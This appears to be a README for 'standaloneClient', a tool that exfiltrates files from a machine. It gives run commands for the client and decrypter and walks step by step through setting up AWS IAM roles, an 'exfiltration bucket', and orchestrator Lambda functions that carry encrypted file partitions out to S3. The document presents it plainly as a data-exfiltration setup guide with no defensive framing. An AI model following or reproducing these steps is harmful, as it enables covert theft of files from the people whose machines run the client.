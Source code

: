 # standaloneClient
## Usage
#### Client
`py clientName.py "Path_to_file"`  
Example:  
`py clientName.py "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

#### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.  

Modify first lines with required data. You will need  

- fernet_key (You will need the same key for the decrypter. The key can be generated in a separate script with Fernet.generate_key())
- orchestrator_function_name (Remember it for later)
- aws_access_key_id
- aws_secret_access_key
- region_name

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

#### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.  

#### Sample Function Setup
Open `sampleFunction_template.py`.  
Modify first lines with required data. You will need  

- exfiltration_bucket_name

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

#### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

Modify first lines with required data. You will need  

- template_bucket_name
- compressed_function_name

Increase the timeout of this function to 1 minute and memory to 512MB  

#### Decrypter Setup
Files saved inside our exfiltration bucket are encrypted so... we ned a way to decrypt them. Lets se how to do this.  

Open `sampledecrypter_template.py`  

Modify first lines with required data. You will need  

- fernet_key
- aws_access_key_id
- aws_secret_access_key
- region_name
- exfiltration_bucket_name

